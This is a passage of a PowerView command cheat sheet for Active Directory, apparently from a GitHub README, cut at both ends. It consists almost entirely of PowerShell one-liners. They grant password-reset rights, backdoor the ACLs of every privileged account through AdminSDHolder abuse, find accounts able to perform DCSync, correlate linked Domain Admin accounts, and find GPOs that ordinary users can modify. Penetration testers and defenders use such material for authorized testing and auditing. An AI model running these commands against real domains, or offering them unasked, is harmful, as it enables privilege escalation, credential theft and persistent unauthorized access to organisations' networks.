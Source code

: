 ```powershell
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```


-  Audit the permissions of AdminSDHolder, resolving GUIDs

```powershell
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```


-  Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```


-  Retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)

```powershell
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}
```


-  Find linked DA accounts using name correlation

```powershell
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}
```


-  Save a PowerView object to disk for later usage

```powershell
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml
```


-  Find any machine accounts in privileged groups

```powershell
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}
```


-  Enumerate permissions for GPOs where users with RIDs of > -1000 have some kind of modification/control rights

```powershell
Get-DomainObjectAcl -LDAPFilter '(objectCategory=groupPolicyContainer)' | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
```


-  Find all policies applied to a current machine
